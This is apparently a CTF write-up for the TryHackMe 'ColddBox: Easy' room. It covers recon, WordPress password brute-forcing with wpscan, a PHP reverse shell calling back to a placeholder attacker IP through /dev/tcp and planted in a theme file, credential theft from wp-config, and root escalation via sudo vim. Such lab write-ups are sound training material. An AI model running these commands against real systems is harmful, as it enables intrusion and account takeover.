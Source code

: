 CTF-Write-up

## Try Hack Me - ColddBox: Easy

##### URL: https://tryhackme.com/room/colddboxeasy

##### Created by _https://tryhackme.com/p/Coldd_

![logo](https://user-images.githubusercontent.com/20625004/141612875-286ea779-19ce-43bd-b022-26e3c1ae5685.PNG)

You should deploy the machine first.

Add the CTF ip to your host file.

``` echo "CTF ip" >> /etc/hosts```

Run nmap against the target machine.

```nmap -sC -A  <target IP>```

Port 80 HTTP is open lets access the web app.

![webapp](https://user-images.githubusercontent.com/20625004/141612903-62b621d0-e4a1-46a4-a2fe-f55b701ca71e.PNG)

Lets use ``gobuster`` to find intersting directories and paths.

``gobuster dir -u http://<target IP> -w /usr/share/wordlist ``

![gobuster](https://user-images.githubusercontent.com/20625004/141612988-5b8a595c-1061-4787-bc07-ce922e17b5f3.PNG)

Access hidden path and we find some names. Also there is a login page and we have identified that the site is using wordpress.

![hidden](https://user-images.githubusercontent.com/20625004/141613066-e6cb15b2-7a84-49b3-ae54-46c1a47960ba.PNG)


![login](https://user-images.githubusercontent.com/20625004/141613081-260b5236-8173-4a0f-8e3d-e4be8558f8fb.PNG)


Now use ``wpscan`` tool to scan the site.

``wpscan --url http://<target IP>/wp-login.php ``

From the names of the ``hidden`` path you can use ``wpsacn`` to brute force.

``wpscan --url http://<target IP>/wp-login.php --passwords /usr/share/wordlists/wordlist --usernames <name>``

![wpascan](https://user-images.githubusercontent.com/20625004/141613265-9ea0b025-1987-4f20-bfad-f8110401d8e4.PNG)

After we were able to access the login page with the cracked username.

Digging around we are able to upload a reverse shell.

![shell](https://user-images.githubusercontent.com/20625004/141613463-aaea3c72-3d33-44ce-816f-0bf630945dbf.PNG)

``<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<Attacker IP>/4444 0>&1'");?>``

Open a listener on your machine ``nc -lvnp 4444`` and then update the file with shell and access the page to give you back the connection.

I used the ``/twentyfifteen/header.php`` for the shell.

Access the page ``http://<target IP>/wp-content/themes/twentyfifteen/header.php`` and now you have access to the machine.

![1](https://user-images.githubusercontent.com/20625004/141613571-ad605b76-d9f8-465c-b5c6-a41644beb35a.PNG)

We have no permissions lets check more.

![2](https://user-images.githubusercontent.com/20625004/141613650-5a4d8166-3cb0-4480-b291-37d5cd6f9e7a.PNG)

Access the path ``/var/www/html/`` there are some files cat ``wp-config/php``.

![3](https://user-images.githubusercontent.com/20625004/141613675-de512ab9-9873-497b-a5b8-34e8b4f5bf21.PNG)

We found a password ``su user`` and access the new user.

![4](https://user-images.githubusercontent.com/20625004/141613728-63ba08b8-a9e9-4586-ad30-560cb122d6c6.PNG)

we have our first flag.

![5](https://user-images.githubusercontent.com/20625004/141613769-60eea95c-8c8f-487c-b269-df9653d88810.PNG)

Now lets see what the user can run as root with ``sudo -l``.

![6](https://user-images.githubusercontent.com/20625004/141613804-5eeb804e-bfd9-472e-b2ce-6cf96f8330c2.PNG)

Lets use vim with the help from ``https://gtfobins.github.io/gtfobins/vim/#sudo`` 

``sudo vim -c ':!/bin/sh'``

And now we have escalted our privileges and we can find the second flag.

![7](https://user-images.githubusercontent.com/20625004/141613878-db3ab089-6472-4c30-ba5d-88f6ea6f46d8.PNG)
